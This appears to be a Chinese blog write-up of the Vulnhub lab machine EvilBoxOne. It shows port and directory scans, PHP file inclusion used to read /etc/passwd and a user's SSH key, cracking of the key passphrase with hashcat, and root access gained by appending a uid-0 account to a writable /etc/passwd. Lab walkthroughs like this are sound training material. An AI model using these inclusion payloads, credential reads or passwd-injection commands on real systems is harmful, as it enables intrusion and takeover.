# Vulnhub-EvilboxOne


## 环境配置

新买的Intel nuc华尔街到了，可以搭建靶场了，很完美

不知道vmware桥接为什么失败，看官方说这个靶机推荐在virtualbox搭建

下载了个百M的安装上确实很小一个




## 初步信息收集

### 端口扫描

发现开启了22与80端口

```bash
nmap -p- 172.20.10.7
nmap -p22,80 -sV 172.20.10.7
```



### 网站探测

打开网站啥都没有，一般这种情况就是没找到具体站点看来得扫一扫



dirsearch扫一下，发现关键路径



robots.txt并没有什么有效信息



再对secret下进行扫描(默认字典里是没有的，网上之前收集了一个字典)

```bash
dirsearch -u http://url/secret -w path.txt

```




### wfuzz探测

网站直接访问为空，应该就是留了个后门

既然是evil，肯定有隐藏参数，用wfuzz进行一波爆破

```bash
wfuzz -u "http://172.20.10.7/secret/evil.php?FUZZ=id" -w /usr/share/wordlists/wfuzz/general/common.txt --hw 0
```

先后尝试了命令执行和直接文件包含，发现文件包含有结果，顺便得到参数名command



## 文件包含利用

既然如此那么我们就可以看看evil.php长啥样,访问`http://172.20.10.7/secret/evil.php?command=php://filter/convert.base64-encode/resource=evil.php`

解码后发现

```php
<?php
    $filename = $_GET['command'];
    include($filename);
?>
```

尝试日志包含RCE，但没找到apache日志路径，不过也得到一些“有用”的信息，在`/etc/apache2/sites-available/000-default.conf`中

```conf

<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

另外/proc/self/environ也不能访问所以也没办法靠猜了

看看历史命令吧，发现有俩用户一个`root`另一个叫`mowree`

```

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

历史命令无`/home/mowree/.bash_history`,之后尝试读取`/home/mowree/.ssh/authorized_keys`发现

```ssh
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAXfEfC22Bpq40UDZ8QXeuQa6EVJPmW6BjB4Ud/knShqQ86qCUatKaNlMfdpzKaagEBtlVUYwit68VH5xHV/QIcAzWi+FNw0SB2KTYvS514pkYj2mqrONdu1LQLvgXIqbmV7MPyE2AsGoQrOftpLKLJ8JToaIUCgYsVPHvs9Jy3fka+qLRHb0HjekPOuMiq19OeBeuGViaqILY+w9h19ebZelN8fJKW3mX4mkpM7eH4C46J0cmbK3ztkZuQ9e8Z14yAhcehde+sEHFKVcPS0WkHl61aTQoH/XTky8dHatCUucUATnwjDvUMgrVZ5cTjr4Q4YSvSRSIgpDP2lNNs1B7 mowree@EvilBoxOne
```

关于什么是authorized_keys

我们需要本地机器ssh访问远程服务器时为了减少输入密码的步骤，基本上都会在本地机器生成ssh公钥，然后将本地ssh公钥复制到远程服务器的.ssh/authorized_keys中，这样就可以免密登录了

并且一般用户的 .ssh 目录下会存在三个文件：
```
id_rsa : 私钥。
authorized_keys : 认证关键字文件。
id_rsa.pub : 公钥
```

## 获取私钥远程登录

将私钥下载下来后登录以后发现使用私匙进行登录时发现还需要密码才可以


那么就需要破解了,通过`locate ssh2john`定位位置

```bash
python3 /usr/share/john/ssh2john.py id_rsa > rsacracked
```

hashcat指定模式爆破

```
hashcat -m 22911 1.txt rockyou.txt --force
```

拿下密码unicorn



成功登录ssh




## 提权

passwd可写



生成带salt的密码

```
perl -le 'print crypt("test","addedsalt")''
```

写入

```
echo "test:adMpHktIn0tR2:0:0:User_like_root:/root:/bin/bash" >>/etc/passwd
```


提权成功


